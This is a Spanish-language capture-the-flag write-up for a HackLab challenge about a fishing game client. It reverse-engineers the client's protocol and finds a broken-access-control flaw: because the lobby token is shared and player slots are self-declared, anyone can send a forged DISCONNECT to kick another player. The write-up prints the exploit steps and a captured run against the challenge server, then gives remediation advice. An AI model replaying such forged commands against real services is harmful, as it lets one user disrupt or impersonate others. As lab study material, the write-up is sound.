

# El Estanque de Pepe

**Plataforma:** HackLab (SoftwareSeguro)

**Edición:** HackLab 2026

**Categoría:** Broken Access Control

**Herramientas:** Python (socket, Capstone)

## Enunciado



Pepe creó un nuevo juego multijugador para disfrutar su pasión desde casa: la pesca. Pero hay un jugador que lo está atormentando: **xX_gochi_Xx**. Este jugador usa scripts para darse una puntuación imposiblemente grande y se la pasa mandando mensajes por el chat.

Pepe te pide ayuda: necesita que encuentres una forma de echar a **xX_gochi_Xx** del lobby así Pepe puede jugar a su juego en paz.

**Objetivo:** echar a `xX_gochi_Xx` del lobby. Cuando lo logres, el servidor manda la flag al chat del lobby apenas el jugador queda fuera.

El juego se descarga como cliente de escritorio (`ElEstanqueDePepe.exe`, también Linux/macOS) y se conecta solo al servidor. En el juego se tira la caña con `ESPACIO` y se recoge con `R`.

## Análisis

El cliente (`ElEstanqueDePepe.exe`, en [`assets/`](./assets/)) es un juego en **C hecho con raylib**, compilado con MinGW. No está empaquetado ni ofuscado, así que las cadenas se leen directo. La ruta de compilación delata el origen:

```
/Users/mati/Documents/ARCHIVOS/PROJECTS/gochip/hacklab/netgame/client/...
```

Entre las cadenas aparecen los tokens del protocolo (`LOBBY`, `GET_LOBBY`, `JOIN`, `CAST`, `REEL`, `DISCONNECT`, `SCORE=`, `SEND_MSG`, `FLAG`), el mensaje de victoria y una **flag falsa (troll)** incrustada como señuelo:

```
FELICITACIONES! FLAG: 53dee8930ef81cf1df21f8c0308f234b Como si fuera tan facil, dale anda a resolverlo enserio
```

```
xX_gochi_Xx fue expulsado. Flag copiada.
```

### Endpoint y transporte

Desensamblando con Capstone, la rutina de conexión usa **Winsock crudo** (`WSAStartup`, `getaddrinfo`, `connect`, `recv`) contra un host y puerto embebidos en el código:

```
pesca.shared.softwareseguro.com.ar : 6767
```

El puerto `6767` = `0x1a6f` se carga como inmediato justo después del puntero al hostname:

```
lea  rax, [rip + 0xfb11c]        ; "pesca.shared.softwareseguro.com.ar"
mov  qword ptr [rbp + 0xb18], rax
mov  dword ptr [rbp + 0xb14], 0x1a6f   ; puerto 6767
```

### El protocolo

Los mensajes son **líneas separadas por `\n`**, y cada línea se parte por `:` (el cliente las tokeniza con `strtok`). El formato de los mensajes que envía el cliente es siempre:

```
A:B:ACCIÓN
```

Las acciones salientes observadas en el desensamblado:

```
A:B:JOIN:JugadorNN
A:B:CAST
A:B:REEL
A:B:DISCONNECT
```

Todas se arman a partir de **dos variables globales** (`A`, buffer de 16 bytes, y `B`, buffer de 16 bytes), que son la identidad del propio cliente. Un tercer buffer global `C` (64 bytes) está vacío al inicio: cuando el servidor manda una línea `...:FLAG:<texto>`, el cliente copia ese texto en `C` y dispara la pantalla **"¡FELICITACIONES!"**. **La flag real no está en el binario**: la entrega el servidor en tiempo de ejecución.

Interacción real contra el servidor (confirmando lo del desensamblado). Al conectar, el cliente manda `GET_LOBBY\n` y el servidor responde con el token de lobby:

```
>>> GET_LOBBY
<<< LOBBY:LBY-CODCHJ;
```

El cliente guarda ese token como `A`, arma `B` como un slot `P%02d` y se une. Tras el `JOIN` llega el roster completo del lobby:

```
>>> LBY-CODCHJ:P00:JOIN:JugadorZZ
<<< LBY-CODCHJ:P00:JOIN:JugadorZZ:SCORE=0;
<<< LBY-CODCHJ:P69:JOIN:Pepe67:SCORE=525;
<<< LBY-CODCHJ:P28:JOIN:xX_gochi_Xx:SCORE=984210;
<<< LBY-CODCHJ:P47:JOIN:matsam22:SCORE=40;
<<< LBY-CODCHJ:P28:SEND_MSG:el estanque es mío, váyanse a casa;
```

Esto revela la vulnerabilidad:

- El campo **A (`LBY-CODCHJ`) es el token del lobby entero**, no una credencial por jugador: el servidor lo reutiliza en los mensajes de **todos** los participantes (`LBY-CODCHJ:P69...`, `LBY-CODCHJ:P28...`). Nos lo entrega a nosotros mismos con solo pedir `GET_LOBBY`.
- Lo único que identifica **quién** realiza cada acción es el **slot `Pxx`**, que el cliente informa por su cuenta.

Es decir, no existe ninguna autenticación por jugador: conociendo el token (público para el lobby) y el slot de la víctima (visible en el roster), se puede enviar un `DISCONNECT` **en nombre de otro**. Es un caso clásico de **Broken Access Control / IDOR**: el servidor no verifica que quien emite la acción sea realmente el dueño de ese slot.

## Explotación

`xX_gochi_Xx` aparece en el roster con un slot `Pxx` (varía por sesión: se lo vio en `P28`, `P12`, etc.). El exploit:

1. Conectarse por TCP y mandar `GET_LOBBY` → leer el token `LBY-XXXXXX`.
2. Unirse (`<token>:P00:JOIN:JugadorZZ`) para recibir el roster.
3. Buscar la línea `...:JOIN:xX_gochi_Xx:...` y extraer su slot.
4. Enviar un `DISCONNECT` **con el slot de la víctima**:

```
<token>:<slot_de_gochi>:DISCONNECT
```

5. Escuchar la flag en el chat.

Script completo en [`./solve.py`](./solve.py). Corrida real:

```
[>] 'GET_LOBBY'
<<< 'LOBBY:LBY-5D2B6I;'
[i] token de lobby (A) = 'LBY-5D2B6I'
[>] 'LBY-5D2B6I:P00:JOIN:JugadorZZ'
<<< 'LBY-5D2B6I:P12:JOIN:xX_gochi_Xx:SCORE=984210;'
[i] xX_gochi_Xx esta en el slot 'P12'
[>] 'LBY-5D2B6I:P12:DISCONNECT'
<<< 'LBY-5D2B6I:P12:DISCONNECT;'
<<< 'LBY-5D2B6I:SERVER:FLAG:<flag>;'
```

El servidor aceptó el `DISCONNECT` contra el slot de gochi y, al quedar fuera, mandó la flag por el chat con el formato `...:SERVER:FLAG:<flag>`.

## Flag

<!-- TODO: pendiente de agregar — flag guardada aparte por el autor, no subida al repo todavía -->

La flag real la entrega el servidor por el chat al expulsar a `xX_gochi_Xx` (formato `...:SERVER:FLAG:<flag>`). **Pendiente de agregar.**

(No confundir con la flag falsa `53dee8930ef81cf1df21f8c0308f234b` incrustada en el `.exe` como señuelo.)

## 🛡️ Remediación (Developer Perspective)

- **Autenticar cada jugador, no cada lobby.** El error central es que el token identifica al lobby y es compartido. Cada cliente debe recibir, al unirse, un **token de sesión secreto y único** (p. ej. aleatorio de 128 bits), que nunca se difunde al resto del lobby.
- **Vincular cada acción al emisor real.** El servidor no debe confiar en el slot `Pxx` que el cliente declara: debe derivar la identidad del actor a partir de la conexión/sesión autenticada y **autorizar la acción solo si el emisor es el dueño del recurso**. Un `DISCONNECT` solo puede afectar a la propia sesión.
- **No exponer identificadores de acción de otros jugadores como si fueran autoridad.** El slot es un dato de presentación (para dibujar a cada jugador), no una credencial; tratarlo como tal es lo que habilita el IDOR.
- **Validar del lado del servidor.** La expulsión de un jugador debería ser una decisión del servidor (anti-cheat, moderación), no algo que cualquier cliente pueda forzar enviando un mensaje crudo.
